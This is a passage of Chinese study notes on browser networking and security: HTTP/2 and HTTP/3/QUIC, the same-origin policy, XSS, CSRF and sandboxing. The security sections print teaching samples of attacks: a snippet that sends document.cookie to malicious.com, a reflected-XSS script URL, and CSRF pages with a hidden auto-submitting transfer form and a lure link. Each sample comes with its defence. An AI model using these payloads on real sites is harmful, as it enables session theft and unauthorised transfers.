   浏览器中有些数据是非常重要的，但是在发送请求时，重要的请求可能会晚于那些不怎么重要的请求，如果服务器按照请求的顺序来回复数据，那么这个重要的数据就有可能推迟很久才能送达浏览器，这对于用户体验来说是非常不友好的。为了解决这个问题，HTTP/2 提供了请求优先级，可以在发送请求时，标上该请求的优先级，这样服务器接收到请求之后，会优先处理优先级高的请求。

2. **服务器推送**

   除了设置请求的优先级外，HTTP/2 还可以直接将数据提前推送到浏览器。比如：当用户请求一个 HTML 页面之后，服务器知道该 HTML 页面会引用几个重要的 JS 文件和 CSS 文件，那么在接收到 HTML 请求之后，附带将要使用的 CSS 文件和 JS 文件一并发送给浏览器，这样当浏览器解析完 HTML 文件之后，就能直接拿到需要的 CSS 文件和 JS 文件，这对首次打开页面的速度起到了至关重要的作用。

3. **头部压缩**

   无论是 HTTP/1.1 还是 HTTP/2，它们都有请求头和响应头，这是浏览器和服务器的通信语言。HTTP/2 对请求头和响应头进行了压缩。

### 7.3 HTTP/3

#### 7.3.1 HTTP/2 缺陷

在 HTTP/2 出现之前，开发者需要采取很多变通的方式来解决 HTTP/1 所存在的问题，不过 HTTP/2 在 2018 年就开始得到了大规模的应用，HTTP/1 中存在的一大堆缺陷都得到了解决。

HTTP/2 的一个核心特性是使用了多路复用技术，因此它可以通过一个 TCP 连接来发送多个 URL 请求。多路复用技术能充分利用带宽，最大限度规避了 TCP 的慢启动所带来的问题，同时还实现了头部压缩、服务器推送等功能，使得页面资源的传输速度得到了大幅提升。在 HTTP/1.1 时代，为了提升并行下载效率，浏览器为每个域名维护了 6 个 TCP 连接；而采用 HTTP/2 之后，浏览器只需要为每个域名维护 1 个 TCP 持久连接，同时还解决了 HTTP/1.1 队头阻塞的问题。

从目前的情况来看，HTTP/2 似乎可以完美取代 HTTP/1 了，不过 HTTP/2 依然存在一些缺陷，于是就有了 HTTP/3。介绍 HTTP/3 之前，先来看看 HTTP/2 到底有什么缺陷：

- **TCP 的队头阻塞**

  虽然 HTTP/2 解决了应用层面的队头阻塞问题，不过和 HTTP/1.1 一样，HTTP/2 依然是基于 TCP 协议的，而 TCP 最初就是为了单连接而设计的。可以把 TCP 连接看成是两台计算机之前的一个虚拟管道，计算机的一端将要传输的数据按照顺序放入管道，最终数据会以相同的顺序出现在管道的另外一头。

  接下来就来分析下 HTTP/1.1 协议栈中 TCP 是如何传输数据的。可以参考下图：

  

  通过上图会发现，从一端发送给另外一端的数据会被拆分为一个个按照顺序排列的数据包，这些数据包通过网络传输到了接收端，接收端再按照顺序将这些数据包组合成原始数据，这样就完成了数据传输。

  不过，如果在数据传输的过程中，有一个数据因为网络故障或者其他原因而丢包了，那么整个 TCP 的连接就会处于暂停状态，需要等待丢失的数据包被重新传输过来。可以把 TCP 连接看成是一个按照顺序传输数据的管道，管道中的任意一个数据丢失了，那之后的数据都需要等待该数据的重新传输。可以参考下图：

  

  **在 TCP 传输过程中，由于单个数据包的丢失而造成的阻塞称为 TCP 上的队头阻塞**。

  首先来看正常情况下 HTTP/2 是怎么传输多路请求的，可以参考下图：

  

  通过该图，知道在 HTTP/2 中，多个请求是跑在一个 TCP 管道中的，如果其中任意一路数据流中出现了丢包的情况，那么就会阻塞该 TCP 连接中的所有请求。这不同于 HTTP/1.1，使用 HTTP/1.1 时，浏览器为每个域名开启了 6 个 TCP 连接，如果其中的 1 个 TCP 连接发生了队头阻塞，那么其他的 5 个连接依然可以继续传输数据。所以随着丢包率的增加，HTTP/2 的传输效率也会越来越差。有测试数据表明，当系统达到了 2% 的丢包率时，HTTP/1.1 的传输效率反而比 HTTP/2 表现得更好。

- **TCP 建立连接的延时**

  除了 TCP 队头阻塞之外，TCP 的握手过程也是影响传输效率的一个重要因素。为了搞清楚 TCP 协议建立连接的延迟问题，还是先来回顾下网络延迟的概念。网络延迟又称为 RTT（Round Trip Time）。把从浏览器发送一个数据包到服务器，再从服务器返回数据包到浏览器的整个往返时间称为 RTT（如下图）。RTT 是反映网络性能的一个重要指标。

  

  那建立 TCP 连接时，需要花费多少个 RTT，来计算下：

  1. HTTP/1 和 HTTP/2 都是使用 TCP 协议来传输的，而如果使用 HTTPS 的话，还需要使用 TLS 协议进行安全传输，而使用 TLS 也需要一个握手过程，这样就需要有两个握手延迟过程。
  2. 在建立 TCP 连接的时候，需要和服务器进行三次握手来确认连接成功，也就是说需要在消耗完 1.5 个 RTT 之后才能进行数据传输。
  3. 进行 TLS 连接，TLS 有两个版本——TLS1.2 和 TLS1.3，每个版本建立连接所花的时间不同，大致是需要 1 ～ 2 个 RTT。

  总之，在传输数据之前，需要花掉 3 ～ 4 个 RTT。如果浏览器和服务器的物理距离较近，那么 1 个 RTT 的时间可能在 10 毫秒以内，也就是说总共要消耗掉 30 ～ 40 毫秒。这个时间也许用户还可以接受，但如果服务器相隔较远，那么 1 个 RTT 就可能需要 100 毫秒以上了，这种情况下整个握手过程需要 300 ～ 400 毫秒，这时用户就能明显地感受到 “慢” 了。

- **TCP 协议僵化**

  现在知道了 TCP 协议存在队头阻塞和建立连接延迟等缺点，但通过改进 TCP 协议来解决这些问题是非常困难的。主要有两个原因：

  - **中间设备的僵化**。要搞清楚什么是中间设备僵化，先要弄明白什么是中间设备。互联网是由多个网络互联的网状结构，为了能够保障互联网的正常工作，需要在互联网的各处搭建各种设备，这些设备就被称为中间设备。这些中间设备有很多种类型，并且每种设备都有自己的目的，这些设备包括了路由器、防火墙、NAT、交换机等。它们通常依赖一些很少升级的软件，这些软件使用了大量的 TCP 特性，这些功能被设置之后就很少更新了。所以，如果在客户端升级了 TCP 协议，但是当新协议的数据包经过这些中间设备时，它们可能不理解包的内容，于是这些数据就会被丢弃掉。这就是中间设备僵化，它是阻碍 TCP 更新的一大障碍。

  - **操作系统也是导致 TCP 协议僵化的另外一个原因**。因为 TCP 协议都是通过操作系统内核来实现的，应用程序只能使用不能修改。通常操作系统的更新都滞后于软件的更新，因此要想自由地更新内核中的 TCP 协议也是非常困难的。

#### 7.3.2 QUIC 协议

HTTP/2 存在一些比较严重的与 TCP 协议相关的缺陷，但由于 TCP 协议僵化，几乎不可能通过修改 TCP 协议自身来解决这些问题，那么解决问题的思路是绕过 TCP 协议，发明一个 TCP 和 UDP 之外的新的传输协议。但是这也面临着和修改 TCP 一样的挑战，因为中间设备的僵化，这些设备只认 TCP 和 UDP，如果采用了新的协议，新协议在这些设备同样不被很好地支持。

因此，HTTP/3 选择了一个折衷的方法——UDP 协议，基于 UDP 实现了类似于 TCP 的多路数据流、传输可靠性等功能，这套功能被称为 QUIC 协议。关于 HTTP/2 和 HTTP/3 协议栈的比较，可以参考下图：


通过上图可以看出，HTTP/3 中的 QUIC 协议集合了以下几点功能：

- **实现了类似 TCP 的流量控制、传输可靠性的功能**。虽然 UDP 不提供可靠性的传输，但 QUIC 在 UDP 的基础之上增加了一层来保证数据可靠性传输。它提供了数据包重传、拥塞控制以及其他一些 TCP 中存在的特性。
- **集成了 TLS 加密功能**。目前 QUIC 使用的是 TLS1.3，相较于早期版本 TLS1.3 有更多的优点，其中最重要的一点是减少了握手所花费的 RTT 个数。
- **实现了 HTTP/2 中的多路复用功能**。和 TCP 不同，QUIC 实现了在同一物理连接上可以有多个独立的逻辑数据流（如下图）。实现了数据流的单独传输，就解决了 TCP 中队头阻塞的问题。

  

- **实现了快速握手功能**。由于 QUIC 是基于 UDP 的，所以 QUIC 可以实现使用 0-RTT 或者 1-RTT 来建立连接，这意味着 QUIC 可以用最快的速度来发送和接收数据，这样可以大大提升首次打开页面的速度。

#### 7.3.3 HTTP/3 的挑战

通过上面的分析，在技术层面 HTTP/3 是个完美的协议。不过要将 HTTP/3 应用到实际环境中依然面临着诸多严峻的挑战，这些挑战主要来自于以下三个方面：

1. 从目前的情况来看，服务器和浏览器端都没有对 HTTP/3 提供比较完整的支持。Chrome 虽然在数年前就开始支持 Google 版本的 QUIC，但是这个版本的 QUIC 和官方的 QUIC 存在着非常大的差异。
2. 部署 HTTP/3 也存在着非常大的问题。因为系统内核对 UDP 的优化远远没有达到 TCP 的优化程度，这也是阻碍 QUIC 的一个重要原因。
3. 中间设备僵化的问题。这些设备对 UDP 的优化程度远远低于 TCP，据统计使用 QUIC 协议时，大约有 3%～ 7% 的丢包率。

## 八. 浏览器安全

### 8.1 同源策略

浏览器安全可以分为三大块：

- Web 页面安全
- 浏览器网络安全
- 浏览器系统安全

Web 世界中隐私和数据非常重要，因此需要安全策略来保障隐私和数据的安全。页面中最基础、最核心的安全策略是**同源策略**（Same-origin policy）。

**如果两个 URL 的协议、域名和端口都相同，就称这两个 URL 同源**。比如下面这两个 URL，它们具有相同的协议 HTTPS、相同的域名 time.geekbang.org，以及相同的端口 443，所以这两个 URL 是同源的：

```txt
https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
```

浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。**两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，这就是同源策略**。具体来讲，同源策略主要表现在以下三个层面：

- **DOM 层面**

  同源策略限制了来自不同源的 JS 脚本对当前 DOM 对象读和写的操作。不同源的两个页面不能相互操纵 DOM，操作时会抛异常：

  ```txt
  Blocked a frame with origin "https://www.infoq.cn" from accessing a cross-origin frame.
  ```

- **数据层面**

  同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。由于同源策略，依然无法通过第二个页面的 opener 来访问第一个页面中的 Cookie、IndexDB 或者 LocalStorage 等内容。

- **网络层面**

  同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

#### 8.1.1 安全和便利性的权衡

同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击。

1. **页面中可以嵌入第三方资源**

   同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JS 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此就需要同源策略对页面的引用资源开一个 “口子”，让其任意引用外部文件。

   所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。比如，恶意程序可以 HTML 文件内容中插入一段 JS 代码。

   当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LocalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当不小心点击了页面中的一个恶意链接时，恶意 JS 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

   ```js
   function onClick() {
     let url = `http://malicious.com?cookie = ${document.cookie}`;
     open(url);
   }
   onClick();
   ```

   在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

   这就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。**CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JS 代码**。通过这些手段就可以大大减少 XSS 攻击。

2. **跨域资源共享和跨文档消息机制**

   默认情况下，如果打开极客邦的官网页面，在官网页面中通过 XMLHttpRequest 或者 Fetch 来请求 InfoQ 中的资源，这时同源策略会阻止其向 InfoQ 发出请求，这样会大大制约生产力。

   为了解决这个问题，引入了**跨域资源共享**（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。同源策略不允许两个页面相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了**跨文档消息机制**，可以通过 window.postMessage 的 JS 接口来和不同源的 DOM 进行通信。

### 8.2 跨站脚本攻击（XSS）

XSS 全称是 Cross Site Scripting，为了与 “CSS” 区分开来，故简称 XSS，翻译过来就是 “跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

最开始的时候，这种攻击是通过跨域来实现的，所以叫 “跨域脚本”。但是发展到现在，往 HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今。

当页面被注入了恶意 JS 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JS 脚本也拥有所有的脚本权限。下面就来看看，如果页面被注入了恶意 JS 脚本，恶意脚本的危害：

- **窃取 Cookie 信息**。恶意 JS 可以通过 `document.cookie` 获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
- **监听用户行为**。恶意 JS 可以使用 addEventListener 接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
- **通过修改 DOM 伪造假的登录窗口**，用来欺骗用户输入用户名和密码等信息。
- **在页面内生成浮窗广告**，这些广告会严重地影响用户体验。

#### 8.2.1 恶意脚本是怎么注入的

要想避免站点被注入恶意脚本，就要知道有哪些常见的注入方式。通常情况下，主要有**存储型 XSS 攻击**、**反射型 XSS 攻击**和**基于 DOM 的 XSS 攻击**三种方式来注入恶意脚本：

- **存储型 XSS 攻击**

  

  通过上图，可以看出存储型 XSS 攻击大致需要经过如下步骤：

  1. 黑客利用站点漏洞将一段恶意 JS 代码提交到网站的数据库中
  2. 用户向网站请求包含了恶意 JS 脚本的页面
  3. 当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器

- **反射型 XSS 攻击**

  在一个反射型 XSS 攻击过程中，恶意 JS 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JS 脚本返回给用户。当恶意 JS 脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作。

  可以结合一个简单的 Node 服务程序来看看什么是反射型 XSS。首先使用 Node 来搭建一个简单的页面环境，搭建好的服务代码如下所示：

  ```js
  var express = require('express');
  var router = express.Router();

  /* GET home page. */
  router.get('/', function (req, res, next) {
    res.render('index', { title: 'Express', xss: req.query.xss });
  });

  module.exports = router;
  ```

  ```html
  <!DOCTYPE html>
  <html>
    <head>
      <title><%= title %></title>
      <link rel="stylesheet" href="/stylesheets/style.css" />
    </head>
    <body>
      <h1><%= title %></h1>
      <p>Welcome to <%= title %></p>
      <div><%- xss %></div>
    </body>
  </html>
  ```

  上面这两段代码，第一段是路由，第二段是视图，作用是将 URL 中 xss 参数的内容显示在页面。但当打开 `http://localhost:3000/?xss=<script>alert('你被xss攻击了')</script>` 这段 URL 时，其结果如下图所示：

  

  通过这个操作，发现用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接，所以对于一些链接一定要慎之又慎。

  > **注意**：Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

- **基于 DOM 的 XSS 攻击**

  基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

#### 8.2.2 如何阻止 XSS 攻击

存储型 XSS 攻击和反射型 XSS 攻击都是需要经过 Web 服务器来处理的，因此可以认为这两种类型的漏洞是服务端的安全漏洞。而基于 DOM 的 XSS 攻击全部都是在浏览器端完成的，因此基于 DOM 的 XSS 攻击是属于前端的安全漏洞。

但无论是何种类型的 XSS 攻击，它们都有一个共同点，那就是首先往浏览器中注入恶意脚本，然后再通过恶意脚本将用户信息发送至黑客部署的恶意服务器上。所以**要阻止 XSS 攻击，可以通过阻止恶意 JS 脚本的注入和恶意消息的发送来实现**。接下来就来看看一些常用的阻止 XSS 攻击的策略：

1. **服务器对输入脚本进行过滤或转码**

   不管是反射型还是存储型 XSS 攻击，都可以在服务器端将一些关键的字符进行转码，比如最典型的：

   ```txt
   code: <script>alert('你被xss攻击了')</script>;
   ```

   这段代码过滤后，只留下了：

   ```txt
   code:
   ```

   这样，当用户再次请求该页面时，由于 script 标签的内容都被过滤了，所以这段脚本在客户端是不可能被执行的。除了过滤之外，服务器还可以对这些内容进行转码，还是上面那段代码，经过转码之后，效果如下所示：

   ```txt
   code:&lt;script&gt;alert(&#39;你被xss攻击了&#39;)&lt;/script&gt;
   ```

   经过转码之后的内容，如 `<script>` 标签被转换为 `&lt;script&gt;`，因此即使这段脚本返回给页面，页面也不会执行这段脚本。

2. **充分利用 CSP**

   虽然在服务器端执行过滤或者转码可以阻止 XSS 攻击的发生，但完全依靠服务器端依然是不够的，还需要把 CSP 等策略充分地利用起来，以降低 XSS 攻击带来的风险和后果。

   实施严格的 CSP 可以有效地防范 XSS 攻击，具体来讲 CSP 有如下几个功能：

   - 限制加载其他域下的资源文件，这样即使黑客插入了一个 JS 文件，这个 JS 文件也是无法被加载的
   - 禁止向第三方域提交数据，这样用户数据也不会外泄
   - 禁止执行内联脚本和未授权的脚本
   - 还提供了上报机制，这样可以帮助尽快发现有哪些 XSS 攻击，以便尽快修复问题

3. **使用 HttpOnly 属性**

   由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 `HttpOnly` 属性来保护 Cookie 的安全。通常服务器可以将某些 Cookie 设置为 HttpOnly 标志，HttpOnly 是服务器通过 HTTP 响应头来设置的，下面是打开 Google 时，HTTP 响应头中的一段：

   ```txt
   set-cookie: NID=189=M8q2FtWbsR8RlcldPVt7qkrqR38LmFY9jUxkKo3-4Bi6Qu_ocNOat7nkYZUTzolHjFnwBw0izgsATSI7TZyiiiaV94qGh-BzEYsNVa7TZmjAYTxYTOM9L_-0CN9ipL6cXi8l6-z41asXtm2uEwcOC5oh9djkffOMhWqQrlnCtOI; expires=Sat, 18-Apr-2020 06:52:22 GMT; path=/; domain=.google.com; HttpOnly
   ```

   可以看到，set-cookie 属性值最后使用了 HttpOnly 来标记该 Cookie。顾名思义，使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JS 来读取这段 Cookie。还可以通过 Chrome 开发者工具来查看哪些 Cookie 被标记了 HttpOnly，如下图：

   

   从图中可以看出，NID 这个 Cookie 的 HttpOnly 属性是被勾选上的，所以 NID 的内容是无法通过 document.cookie 是来读取的。由于 JS 无法读取设置了 HttpOnly 的 Cookie 数据，所以即使页面被注入了恶意 JS 脚本，也是无法获取到设置了 HttpOnly 的数据。因此一些比较重要的数据建议设置 HttpOnly 标志。

### 8.3 CSRF 攻击

结合一个真实的关于 CSRF 攻击的典型案例来分析下，在 2007 年的某一天，David 无意间打开了邮箱中的一份邮件，并点击了该邮件中的一个链接。过了几天，David 就发现他的域名被盗了。不过几经周折，David 还是要回了他的域名，也弄清楚了他的域名之所以被盗，就是因为无意间点击的那个链接。结合下图来分析下 David 域名的被盗流程：



- 首先 David 发起登录 Gmail 邮箱请求，然后 Gmail 服务器返回一些登录状态给 David 的浏览器，这些信息包括了 Cookie、Session 等，这样在 David 的浏览器中，Gmail 邮箱就处于登录状态了。
- 接着黑客通过各种手段引诱 David 去打开他的链接，比如 hacker.com，然后在 hacker.com 页面中，黑客编写好了一个邮件过滤器，并通过 Gmail 提供的 HTTP 设置接口设置好了新的邮件过滤功能，该过滤器会将 David 所有的邮件都转发到黑客的邮箱中。
- 最后的事情就很简单了，因为有了 David 的邮件内容，所以黑客就可以去域名服务商那边重置 David 域名账户的密码，重置好密码之后，就可以将其转出到黑客的账户了。

以上就是 David 的域名被盗的完整过程，其中前两步就是 CSRF 攻击。

CSRF 英文全称是 Cross-site request forgery，所以又称为 “跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，**CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事**。

#### 8.3.1 CSRF 攻击方式

通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击。下面以极客时间官网为例子，来分析这三种攻击方式都是怎么实施的。这里假设极客时间具有转账功能，可以通过 POST 或 Get 来实现转账，转账接口如下所示：

```txt
#同时支持POST和Get
#接口
https://time.geekbang.org/sendcoin
#参数
##目标用户
user
##目标金额
number
```

有了上面的转账接口，就可以来模拟 CSRF 攻击了。

1. **自动发起 Get 请求**

   黑客最容易实施的攻击方式是自动发起 Get 请求，具体攻击方式可以参考下面这段代码：

   ```html
   <!DOCTYPE html>
   <html>
     <body>
       <h1>黑客的站点：CSRF攻击演示</h1>
       
     </body>
   </html>
   ```

   这是黑客页面的 HTML 代码，在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 极客币就被转移到黑客的账户上去了。

2. **自动发起 POST 请求**

   除了自动发送 Get 请求之外，有些服务器的接口是使用 POST 方法的，所以黑客还需要在他的站点上伪造 POST 请求，当用户打开黑客的站点时，是自动提交 POST 请求，具体的方式可以参考下面示例代码：

   ```html
   <!DOCTYPE html>
   <html>
     <body>
       <h1>黑客的站点：CSRF攻击演示</h1>
       <form id="hacker-form" action="https://time.geekbang.org/sendcoin" method="POST">
         <input type="hidden" name="user" value="hacker" />
         <input type="hidden" name="number" value="100" />
       </form>
       <script>
         document.getElementById('hacker-form').submit();
       </script>
     </body>
   </html>
   ```

   在这段代码中，可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

3. **引诱用户点击链接**

   除了自动发起 Get 和 Post 请求之外，还有一种方式是诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。黑客会采用很多方式去诱惑用户点击链接，示例代码如下所示：

   ```html
   <div></div>
   <div>
     <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" target="_blank"> 点击下载美女照片 </a>
   </div>
   ```

   这段黑客站点代码，页面上放了一张美女图片，下面放了图片下载地址，而这个下载地址实际上是黑客用来转账的接口，一旦用户点击了这个链接，那么他的极客币就被转到黑客账户上了。

以上三种就是黑客经常采用的攻击方式。**和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击**。

#### 8.3.2 如何防止 CSRF 攻击

发起 CSRF 攻击有三个必要条件：

- 目标站点一定要有 CSRF 漏洞
- 用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态
- 需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛

满足以上三个条件之后，黑客就可以对用户进行 CSRF 攻击了。这里还需要额外注意一点，与 XSS 攻击不同，CSRF 攻击不会往页面注入恶意脚本，因此黑客是无法通过 CSRF 攻击来获取用户页面数据的；其**最关键的一点是要能找到服务器的漏洞**，所以说对于 CSRF 攻击主要的防护手段是提升服务器的安全性。要让服务器避免遭受到 CSRF 攻击，通常有以下几种途径：

1. **充分利用好 Cookie 的 SameSite 属性**

   Cookie 是浏览器和服务器之间维护登录状态的一个关键数据，因此要阻止 CSRF 攻击，首先就要考虑在 Cookie 上来做文章。

   通常 CSRF 攻击都是从第三方站点发起的，要防止 CSRF 攻击，最好能实现从第三方站点发送请求时禁止 Cookie 的发送，因此在浏览器通过不同来源发送 HTTP 请求时，有如下区别：

   - 如果是从第三方站点发起的请求，那么需要浏览器禁止发送某些关键 Cookie 数据到服务器
   - 如果是同一个站点发起的请求，那么就需要保证 Cookie 数据正常发送

   而 Cookie 中的 SameSite 属性正是为了解决这个问题的，通过使用 SameSite 可以有效地降低 CSRF 攻击的风险。在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项，如下：

   ```txt
   set-cookie: 1P_JAR=2019-10-20-06; expires=Tue, 19-Nov-2019 06:36:21 GMT; path=/; domain=.google.com; SameSite=none
   ```

   **SameSite 选项通常有 Strict、Lax 和 None 三个值**。

   - Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。简言之，如果从极客时间的页面中访问 InfoQ 的资源，而 InfoQ 的某些 Cookie 设置了 SameSite = Strict 的话，那么这些 Cookie 是不会被发送到 InfoQ 的服务器上的。只有从 InfoQ 的站点去请求 InfoQ 的资源时，才会带上这些 Cookie。

   - Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。

   - 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据。

   关于 SameSite 的具体使用方式，可以[参考](https://web.dev/samesite-cookies-explained)。对于防范 CSRF 攻击，可以针对实际情况将一些关键的 Cookie 设置为 Strict 或者 Lax 模式，这样在跨站点请求时，这些关键的 Cookie 就不会被发送到服务器，从而使得黑客的 CSRF 攻击失效。

2. **验证请求的来源站点**

   由于 CSRF 攻击大多来自于第三方站点，因此服务器可以禁止来自第三方站点的请求。那么该怎么判断请求是否来自第三方站点呢？这就需要 HTTP 请求头中的 `Referer` 和 `Origin` 属性了。**Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址**。比如从极客时间的官网打开了 InfoQ 的站点，那么请求头中的 Referer 值是极客时间的 URL，如下图：

   

   虽然可以通过 Referer 告诉服务器 HTTP 请求的来源，但是有一些场景是不适合将来源 URL 暴露给服务器的，因此浏览器提供给开发者一个选项，可以不用上传 Referer 值，具体可参考 Referrer Policy。

   但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了 Origin 属性，在一些重要的场合，比如通过 XMLHttpRequest、Fetch 发起跨站请求或者通过 Post 方法发送请求时，都会带上 Origin 属性，如下图：

   

   从上图可以看出，**Origin 属性只包含了域名信息，并没有包含具体的 URL 路径**，这是 Origin 和 Referer 的一个主要区别。

   > Origin 的值之所以不包含详细路径信息，是有些站点因为安全考虑，不想把源站点的详细路径暴露给服务器。因此，服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值。

3. **CSRF Token**

   可以采用 CSRF Token 来验证，这个流程大致分为两步：

   1. 第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。可以参考下面示例代码：

      ```html
      <!DOCTYPE html>
      <html>
        <body>
          <form action="https://time.geekbang.org/sendcoin" method="POST">
            <input type="hidden" name="csrf-token" value="nc98P987bcpncYhoadjoiydc9ajDlcn" />
            <input type="text" name="user" />
            <input type="text" name="number" />
            <input type="submit" />
          </form>
        </body>
      </html>
      ```

   2. 第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。如果是从第三方站点发出的请求，那么将无法获取到 CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。

### 8.4 安全沙箱：页面和系统之间的隔离墙

浏览器架构在最开始的阶段，浏览器是单进程的，这意味着渲染过程、JS 执行过程、网络加载过程、UI 绘制过程和页面显示过程等都是在同一个进程中执行的，这种结构虽然简单，但是也带来了很多问题。

**从稳定性视角来看，单进程架构的浏览器是不稳定的**，因为只要浏览器进程中的任意一个功能出现异常都有可能影响到整个浏览器，如页面卡死、浏览器崩溃等。

浏览器本身的漏洞是单进程浏览器的一个主要问题，如果浏览器被曝出存在漏洞，那么在这些漏洞没有被及时修复的情况下，黑客就有可能通过恶意的页面向浏览器中注入恶意程序，其中最常见的攻击方式是利用**缓冲区溢出**，不过需要注意这种类型的攻击和 XSS 注入的脚本是不一样的。

- XSS 攻击只是将恶意的 JS 脚本注入到页面中，虽然能窃取一些 Cookie 相关的数据，但是 XSS 无法对操作系统进行攻击。

- 而通过浏览器漏洞进行的攻击是可以入侵到浏览器进程内部的，可以读取和修改浏览器进程内部的任意内容，还可以穿透浏览器，在用户的操作系统上悄悄地安装恶意软件、监听用户键盘输入信息以及读取用户硬盘上的文件内容。

#### 8.4.1 安全视角下的多进程架构

现代浏览器的设计目标是**安全**、**快速**和**稳定**，而单进程架构的安全问题就是一个很大的潜在威胁，因此在设计现代浏览器的体系架构时，需要解决这个问题。

于是现代浏览器采用了[多进程架构](#212-多进程浏览器)，将渲染进程和浏览器主进程做了分离。下面重点从操作系统安全的视角来看看浏览器的多进程架构，如下图：


观察上图，浏览器被划分为**浏览器内核**和**渲染内核**两个核心模块，其中浏览器内核是由网络进程、浏览器主进程和 GPU 进程组成的，渲染内核就是渲染进程。

